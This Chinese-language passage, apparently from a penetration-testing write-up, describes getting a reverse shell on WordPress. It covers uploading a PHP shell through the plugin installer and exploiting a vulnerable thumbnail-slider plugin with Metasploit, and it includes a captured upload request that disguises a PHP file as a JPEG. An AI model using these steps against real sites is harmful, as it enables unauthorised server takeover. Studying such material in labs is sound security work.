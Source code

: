 ### 方法 3、php 上传

直接在插件安装页面上传 php\_reverse\_shell.php 然后在/wp-content/includes/中访问  
上传过程中会发生报错 但不影响文件正常上传和访问

### 方法 4、安装脆弱插件

比如安装 wp\_responsive-thumbnail-slider 1.0  
[https://github.com/wp-plugins/wp-responsive-thumbnail-slider/blob/master/wp-responsive-images-thumbnail-slider.php](https://github.com/wp-plugins/wp-responsive-thumbnail-slider/blob/master/wp-responsive-images-thumbnail-slider.php)  
[![](assets/1706513536-e0ed778d34e0d28776ad915e04cc3a26.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705929451952-7393e2dd-f60b-473b-847e-6b5a2d54d6a1.png#averageHue=%23d9d9d9&clientId=uc39f9627-399e-4&from=paste&height=610&id=u354fe16b&originHeight=1220&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=217350&status=done&style=none&taskId=ue3b1c50c-2cc4-4347-b1f2-5a2f438adc7&title=&width=1547)  
安装并启用后使用 metasploit 的 multi/http/wp\_responsive\_thumbnail\_slider\_upload 模块进行攻击  
但在使用这个模块时发现攻击不成功 打开 msfconsole 的 httptrace 功能 检查一下交互流量  
shell 上传流量 响应状态码 200 检查后发现文件上传成功

```bash
POST /wp-admin/admin.php?page=responsive_thumbnail_slider_image_management/&action=addedit HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 14.0; rv:109.0) Gecko/20100101 Firefox/118.0
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7Cc6f4177388dc93f4dbf79d2e82f47164644463acddf110de7c2abfbe1c97e5d7; wordpress_logged_in_6c4a121fd069bf4e2556e12b7efdd957=may%7C1706103384%7Cui79L7HaD6Tg7KSz4Klp4rrYC5nGMuTiSyjaHFqiA8A%7C813c527b5d99bb083c2e43068cc63c66c41836fc5d3fc42883b8390f8da744a2;
Content-Type: multipart/form-data; boundary=---------------------------743289811480519521793446209521
Content-Length: 2471

-----------------------------743289811480519521793446209521
Content-Disposition: form-data; name="image_name"; filename="KSXrN.php"
Content-Type: image/jpeg

```